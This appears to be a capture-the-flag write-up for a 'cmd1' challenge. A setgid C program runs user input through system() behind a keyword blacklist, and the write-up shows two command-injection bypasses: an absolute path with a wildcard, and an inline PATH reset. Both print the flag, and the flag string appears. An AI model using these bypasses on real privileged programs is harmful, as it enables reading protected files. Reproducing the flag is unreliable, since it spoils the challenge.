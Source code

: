 # cmd1

The home folder of this challenge contains the following:

```
cmd1@ubuntu:~$ ls -l
total 20
-r-xr-sr-x 1 root cmd1_pwn 8513 Jul 14  2015 cmd1
-rw-r--r-- 1 root root      319 Jul 14  2015 cmd1.c
-r--r----- 1 root cmd1_pwn   48 Jul 14  2015 flag

```

### cmd1.c
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/fuckyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

In this challenge, the `PATH` variable will be overrriden by a non-existing path. Therefore it is not possible to execute default programs like `cat` directly.

We could find out ourselves where the `cat` program is located on the system and execute it by typing the whole path.

```
cmd1@ubuntu:~$ which cat
/bin/cat
```

The words `flag`, `sh` and `tmp` are blacklisted and cannot be in the command we want to execute. The easiest solution to work aroud this is to execute `cat` for all the files in home folder.

```
cmd1@ubuntu:~$ ./cmd1 "/bin/cat *"
ELF>�@@X@8	@@@@@@��88@8@@@ ((`( PP`P`��TT@T@DDP�td��@�@44Q�tdR�td((`(`��/lib64/ld-linux-x86-64.so.2GNUGNU�{#'�(�/B�-��xl�
                  n(/! __gmon_start__libc.so.6strstrputenvsystem__libc_start_mainGLIBC_2.2.5ui
[truncated]
	system( argv[1] );
	return 0;
}

mommy now I get what PATH environment is for :)
```

It was also possible to set the `PATH` environment variable back to the original value.

```
cmd1@ubuntu:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
cmd1@ubuntu:~$ ./cmd1 "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games; cat *"
[truncated]
mommy now I get what PATH environment is for :)
```
